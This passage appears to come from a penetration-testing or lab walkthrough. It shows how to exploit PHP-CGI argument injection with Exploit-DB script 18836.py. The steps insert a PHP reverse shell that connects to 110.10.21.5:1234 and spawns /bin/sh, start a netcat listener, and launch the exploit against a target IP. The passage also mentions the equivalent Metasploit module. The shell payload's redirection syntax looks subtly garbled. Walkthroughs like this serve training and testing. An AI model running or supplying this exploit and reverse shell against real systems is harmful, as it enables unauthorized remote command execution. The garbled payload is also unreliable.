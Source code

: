 <figure><img src="../../../../.gitbook/assets/image (279).png" alt=""><figcaption></figcaption></figure>

* Modify `pwn_code` variable and insert **PHP reverse shell code**

```bash
vim 18836.py
# insert:
pwn_code = """<?php $sock=fsockopen("110.10.21.5",1234);exec("/bin/sh -i <&4 <>>&4 2>&4");?>"""
# Save and quit
```

```bash
# On another tab
nc -nvlp 1234

# Launch the exploit
python2 18836.py 10.0.24.140 80

```

<figure><img src="../../../../.gitbook/assets/image (280).png" alt=""><figcaption></figcaption></figure>

* Automatic MSF `exploit/multi/http/php_cgi_arg_injection` module can be used too.

<figure><img src="../../../../.gitbook/assets/image (281).png" alt=""><figcaption></figcaption></figure>
